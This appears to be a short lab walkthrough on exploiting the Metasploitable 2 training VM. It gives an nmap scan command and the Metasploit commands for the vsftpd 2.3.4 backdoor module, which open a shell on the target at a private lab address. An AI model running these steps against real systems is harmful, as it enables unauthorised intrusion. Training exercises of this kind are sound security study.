 ```yaml
---
description: basic exploitation on metasploitable 2.
---
```


# Exploitation

### Using Zenmap to scan the machine:

`nmap -T4 -A -v 192.168.81.132` cmd on zenmap to scan all open ports.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 02-01-00 (1).png" alt=""><figcaption><p><code>zenmap scan</code></p></figcaption></figure>

### Exploiting port 21

Since FTP port 21 is open, we are going to be exploiting it.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 15-18-38.png" alt=""><figcaption><p>searching for the ftp vuln</p></figcaption></figure>

`use exploit/unix/ftp/vsftpd_234_backdoor` to exploit the vuln.

`set RHOSTS 192.168.81.132` to set the RHOST.

`exploit` run this to exploit the payload.

Success, you now have access to a reverse shell, you can execute linux cmds ie `uname -a` etc.





